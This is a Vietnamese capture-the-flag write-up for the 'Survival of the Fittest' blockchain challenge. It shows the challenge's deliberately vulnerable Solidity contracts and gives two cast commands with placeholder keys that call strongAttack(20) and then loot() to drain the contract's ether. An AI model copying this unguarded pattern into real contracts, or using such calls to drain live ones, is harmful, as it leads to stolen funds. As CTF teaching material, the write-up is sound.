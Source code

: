 # Survival of the Fittest

![alt text](image.png)

## Code Review — Understanding Challenge

Có hai tệp Solidity, `Setup.sol` và `Creature.sol`, giống như các quy tắc của trò chơi.

- `Setup.sol` thiết lập challenge. Nó tạo ra một 'Creature' với 1 ether và mục tiêu là giảm số dư của nó xuống 0.

- `Creature.sol` mô tả sinh vật phải đánh bại. Nó có 20 điểm sinh lực và cần đưa những điểm này xuống 0 để giành chiến thắng.

Để giành được flag, phải đánh bại kẻ thù với điểm sinh lực là 20. Có 2 tùy chọn: `punch()` và `stringAttack(uint256 _damage)`.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

## Lets meet the enemies here - (`http://IP:PORT/`)

Trang web cũng có hướng dẫn (tài liệu) giúp hiểu rõ hơn về challenge này.

![alt text](image-1.png)

Ở đây có thể xem Docs (`http://IP:PORT/docs`)

![alt text](image-2.png)

Cần kiểm tra `connections` để tìm địa chỉ `TargetAddress` cần thiết và khóa `PrivateKey` để giải quyết challenge này

![alt text](image-3.png)

## Engaging in the Battle

### Launching the Attack:

- Đầu tiên, sẽ sử dụng công cụ `cast` để tương tác với blockchain tại endpoint `/rpc`. Điều này giống như bắt đầu cuộc tấn công trong trận chiến kỹ thuật số.

https://book.getfoundry.sh/cast/

Thực hiện command:

```
cast send --rpc-url http://IP:PORT/rpc --private-key PRIVATE_KEY TARGET_ADDRESS "strongAttack(uint256)" 20
```

Hành động này sẽ tấn công mạnh vào sinh vật với giá trị sát thương là 20, nhằm mục đích làm cạn kiệt điểm sinh lực của nó chỉ trong một lần.

![alt text](image-4.png)

### Claiming Victory and Loot

Sau khi sinh vật bị đánh bại, đã đến lúc nhận phần thưởng.

Sử dụng command:

```
cast send --rpc-url http://IP:PORT/rpc --private-key PRIVATE_KEY TARGET_ADDRESS "loot()"
```

Điều này cho phép thu thập chiến lợi phẩm, tượng trưng cho sự thành công trong challenge.